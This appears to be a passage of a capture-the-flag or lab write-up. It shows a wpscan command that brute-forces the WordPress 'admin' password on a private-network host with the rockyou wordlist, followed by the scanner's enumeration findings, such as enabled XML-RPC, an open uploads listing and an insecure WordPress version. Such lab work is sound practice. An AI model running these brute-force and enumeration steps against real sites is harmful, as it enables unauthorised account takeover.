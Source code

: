 >command: wpscan --url http://192.168.53.166/ -U admin -P /home/bl4ck4non/Documents/rockyou.txt

```
┌──(bl4ck4non㉿bl4ck4non)-[~]
└─$ wpscan --url http://192.168.53.166/ -U admin -P /home/bl4ck4non/Documents/rockyou.txt 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.53.166/ [192.168.53.166]
[+] Started: Fri Mar  3 00:53:52 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.38 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.53.166/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.53.166/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.53.166/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.53.166/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.7.2 identified (Insecure, released on 2021-05-12).
 | Found By: Rss Generator (Passive Detection)
 |  - http://192.168.53.166/index.php/feed/, <generator>https://wordpress.org/?v=5.7.2</generator>
 |  - http://192.168.53.166/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.7.2</generator>

[+] WordPress theme in use: twentytwentyone
 | Location: http://192.168.53.166/wp-content/themes/twentytwentyone/
 | Last Updated: 2022-11-02T00:00:00.000Z
 | Readme: http://192.168.53.166/wp-content/themes/twentytwentyone/readme.txt
```